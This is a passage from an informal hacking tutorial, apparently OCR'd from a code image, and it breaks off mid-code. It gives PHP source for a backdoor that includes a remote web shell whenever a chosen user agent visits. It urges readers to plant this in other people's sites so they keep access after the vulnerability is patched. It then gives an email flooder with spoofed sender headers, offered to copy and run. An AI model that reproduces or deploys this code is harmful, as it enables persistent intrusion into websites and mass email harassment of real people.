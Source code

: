 This is useful if you want the code run at least once but not necessarily further times. 

#### Simple Backdoor in PHP  ####

Because many of you want to go straight to the uber hax, I'll add this little bit in. Please stop reading and Google up the following if you don't know this already: 

1. Basic Understanding of PHP 
2. Remote File Inclusion 
3. Basic web hacking 
4. Web shell (c99, x2300 Locus7s, r57, etc.) 
5. User Agents and how to change them 

Now that you have an idea of what these are, here is how to backdoor a page. If you have access to someone's website, you can slip in this little bit into the PHP page to backdoor their site. When you visit that page with the specified user agent, a web shell will automatically be included. Backdooring a site is recommended for most purposes, because if the site fixes whatever vulnerability you used to get in, you'll still have access. Anyways here is the backdoor: 
    <?php
    $blackdoor = $_SERVER['HTTP_USER_AGENT']; 
    if($blackdoor == "PUT YOUR USER AGENT HERE) 
     { 
      @include('PUTTHEURLTOYOURWEBSHELLHERE'); 
     } 
    ?>

#### Email flooder in PHP  ####

If you want to just copy this and run it off a server, go ahead. Unfortunately most free PHP hosts don't allow you to send mail, but I guess you can run it off your localhost. You must have access to the sendmail binary on your system to run; it's just a matter of configuring php.ini, which I won't go into now. 

You need to have: 

1. a server 
2. basic knowledge of PHP 
3. knowledge on how to install/configure your PHP (pop quiz: should register_globals be kept on or off?)

    <?php
       $spam= $_POST["spams"]; 
    // define number of spam cycles
       $iloled = $_POST["message"];
    // this is the message
       $email = $_POST["email"];
    // define recipient
       $rofl = $_POST["body"];
    // your message
       function head() {
          $sender = $_POST["sender"];
          $header = 'MIME-Version: 1.0 \r\n
       Content-type: text/html; charset=iso-8859-1 \r\n
       From: <' . $sender . '>';
          return($header);
       }
    // spoofed header. i found it easier to write it this way.
       if(isset($_POST["email"])) {
          for($i = 1; $i <= $spam; $i++){
             for($ii = 0; $ii <= $_POST["spams"]; $ii++){
                mail($_POST["email"], $iloled,$rofl,head());
             } // (the second for loop) defines one cycle
             echo "Done $i loops of $spam<br>"; //we're done
          }
       echo "Complete."; 
       }
       else {